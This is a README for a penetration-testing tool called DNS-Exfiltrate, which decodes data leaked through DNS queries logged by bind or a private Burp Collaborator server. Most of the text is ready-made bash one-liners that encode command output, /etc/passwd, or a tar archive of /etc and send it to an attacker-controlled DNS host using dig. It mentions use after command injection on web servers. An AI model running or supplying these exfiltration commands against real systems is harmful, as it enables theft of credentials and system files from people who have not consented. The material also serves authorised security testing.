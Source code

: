 # DNS-Exfiltrate

Parses bind query logs or private Burp Collaborator output to decode base32- or hex-encoded exfiltrated data. 

Burp Collaborator allows prepending hostnames to the provided address. You may prepend names (maximum length of a DNS label is 63 bytes), assuming it uses characters safe in a DNS query (such as hex- or base32-encoded data, see below). You may also prepend multiple names, as long as the entire request is 253 bytes or less. This allows exfiltration (including blind exfiltration) of data via DNS. Works best with a private Burp Collaborator server (or any DNS server that logs queries). You may also do this with a public server and a sniffer such as tcpdump (no DNS server required). I plan to add pcap support in the future.

`dns-parse.py` parses native bind query logs, or private Burp Collaborator output, which may be logged via `tee` (requires "logLevel" : "DEBUG" in collaborator.config):

```
java -jar burpsuite_pro.jar --collaborator-server | tee collaborator.log
```

Assumes hostnames are encoded in base32 (`A-Z`, `2-7`) or lowercase hex (`0-9`, `a-f`), which which is safe for DNS queries (and can typically be sent via `bash` on Linux/Unix systems using `base32` or `xxd`). base32 is twice as efficient as hex. The `=` character (used to pad base32-encoded data to an 8 byte boundary) is not DNS safe, but can be trimmed using `tr -d =` on Linux/Unix systems. `dns-parse.py` appends any missing `=` characters. base64 does not work due to `/` and `+`.

Thanks and credit to [Xavier Mertens](https://www.sans.org/profiles/xavier-mertens/) for his excellent [Internet Storm Center](https://isc.sans.edu/) post: [DNS Query Length... Because Size Does Matter](https://isc.sans.edu/diary/DNS+Query+Length...+Because+Size+Does+Matter/22326)

## Use cases (bash):

Note that if results are unreliable you can specify the name or IP of the DNS server via `dig @`...

In the examples below: `<Name>` is the random name provided by Burp Collaborator (AKA, the interaction ID). For example: use `q3uv485lz802ad6a7xz6c2izvq1hp6` if your Beef Collaborator address is `q3uv485lz802ad6a7xz6c2izvq1hp6.oastify.com`. Use a different query ID for each transfer.

For `base32`, the `-w63` flag specifies line wrapping at 63 bytes. For `xxd` (hex): the `-p` flag is 'output  in  postscript  continuous  hexdump style', and `-c31` is count of 31 hex characters (62 bytes sent).

### Send STDOUT from a command

#### base32
```
ifconfig | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
ifconfig | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode the output
```
dns-parse.py <Name> (query.log|collaborator.log)
```

### Exfiltrate a file

#### base32
```
base32 -w63 < /etc/passwd | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
xxd -p -c31 < /etc/passwd | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode the file
```
dns-parse.py <Name> (query.log|collaborator.log)
```

### Exfiltrate a compressed file:

#### base32
```
gzip - < /etc/passwd | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
gzip - < /etc/passwd | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode/unzip the file
```
dns-parse.py <Name> (query.log|collaborator.log) | zcat
```

### Exfiltrate a compressed tar archive of a directory:

Note that exfiltrating /etc on an Ubuntu Linux system worked (but was slow). It took 35 minutes, requiring 45,382 DNS requests, resulting in a 1.8 megabyte tar.gz file. Needless to say: the files/directories contained in the archive are restricted by the permissions of the running user. For command injection on web sites (using an account such as apache or www-data), many files/directories will likely be missing.

#### base32
```
tar czf - /etc | base32 -w63 | tr -d = | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### hex
```
tar czf - /etc | xxd -p -c31 | while read a; do dig $a.<Name>.<DNS Server>; done;
```

#### Decode/save the tar archive
```
dns-parse.py <Name> (query.log|collaborator.log) > exfiltrated.tgz
```

## Sample Logs

[collaborator1.log](collaborator1.log) (STDOUT exfiltration via base32):
```
dns-parse.py qysipx9bbnhv0u5ez2dkmzuh68cy0n collaborator1.log
```

[collaborator2.log](collaborator2.log) (/etc/passwd exfiltration via base32):
```
dns-parse.py 165cmzb1cu1m3wso0k1k3udr7id91y collaborator2.log
```

[collaborator3.log](collaborator3.log) (gzipped /etc/passwd exfiltration via base32):
```
dns-parse.py l9vn8f4xr94q4f8j3t6ba8i5bwhm5b collaborator3.log | zcat
```
